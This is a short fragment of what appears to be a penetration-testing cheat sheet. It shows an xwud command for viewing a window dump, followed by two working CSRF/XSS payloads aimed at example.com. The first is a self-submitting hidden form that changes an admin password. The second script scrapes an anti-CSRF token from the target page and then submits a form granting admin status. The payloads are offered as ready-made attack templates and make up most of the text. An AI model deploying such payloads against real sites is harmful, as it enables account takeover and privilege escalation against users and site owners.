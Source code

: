 - Open the dump

```bash
xwud -in dump
```

## CSRF / XSS

Exemple 1

```html
<html>
  <body>
    <form action="https://example.com/change_password.php" method="POST">
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="password" value="newPassword123" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Exemple 2

```html
<form action="https://example.com/change_status.php" method="post" name="csrf_form" enctype="multipart/form-data">
    <input id="username" type="text" name="username" value="sds">
    <input id="admin" type="checkbox" name="admin" checked >
    <input id="token" type="hidden" name="token" value="" />
    <button type="submit">Submit</button>
</form>

<script>
(function() {
    let xhttp = new XMLHttpRequest();
    xhttp.open("GET", "https://example.com/change_status.php", true);
    xhttp.onreadystatechange = function() {
        if (this.readyState === 4 && this.status === 200) {
            let token_admin = this.responseText.match(/[abcdef0123456789]{32}/);
            if (token_admin) {
                document.getElementById('token').setAttribute('value', token_admin);
                document.csrf_form.submit();
            }
        }
    };
    xhttp.send();
})();
</script>
```
